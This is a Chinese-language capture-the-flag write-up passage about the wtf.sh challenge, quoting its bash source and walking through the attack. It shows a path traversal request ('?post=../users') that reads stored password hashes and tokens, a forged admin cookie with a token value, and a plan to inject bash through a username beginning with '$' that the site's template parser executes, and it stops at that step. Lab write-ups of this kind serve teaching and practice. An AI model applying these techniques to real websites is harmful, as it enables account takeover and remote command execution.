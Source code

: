 可以得知，如果以admin登录，就会获得flag1。关于获得admin权限，第一就是获得密码，第二就是获得cookie。之前user_functions.sh里有关于用户的函数，返回去看看可知

```bash
# user files look like:
# username
# hashed_pass
# token
echo "${username}" > "users/${user_id}";
echo "${hashed_pass}" >> "users/${user_id}";
echo "${token}" >> "users/${user_id}";
```

会把hash_pass和token放入users/${user_id}，既然这样就可以直接读取

```
?post=../users
```

![](https://wulasite.top/mdimage/adword/admin_token.png)

密码破解不出，用修改cookie的方式

```
Cookie: USERNAME=admin; TOKEN=uYpiNNf/X0/0xNfqmsuoKFEtRlQDwNbS2T6LdHDRWH5p3x4bL4sxN0RMg17KJhAmTMyr8Sem++fldP0scW7g3w==
```

然后访问profile得到flag1

![](https://wulasite.top/mdimage/adword/admin_get_flag.png)

读了一下其它文件，发现没有get_flag2，所以应该就是要执行命令了。

结合wtf.sh的.wtf文件解析，就是要上传一个wtf文件。在post_funtions里reply提供了这个机会

```bash
function reply {
local post_id=$1;
local username=$2;
local text=$3;
local hashed=$(hash_username "${username}");

curr_id=$(for d in posts/${post_id}/*; do basename $d; done | sort -n | tail -n 1);
next_reply_id=$(awk '{print $1+1}' <<< "${curr_id}");
next_file=(posts/${post_id}/${next_reply_id});
echo "${username}" > "${next_file}";
echo "RE: $(nth_line 2 < "posts/${post_id}/1")" >> "${next_file}";
echo "${text}" >> "${next_file}";

# add post this is in reply to to posts cache
echo "${post_id}/${next_reply_id}" >> "users_lookup/${hashed}/posts";
}
```

post_id是可控的，username text可控，

所以先注册一个$get_flag2用户，这是wtf解析导致的，$开头会被解析成bash。
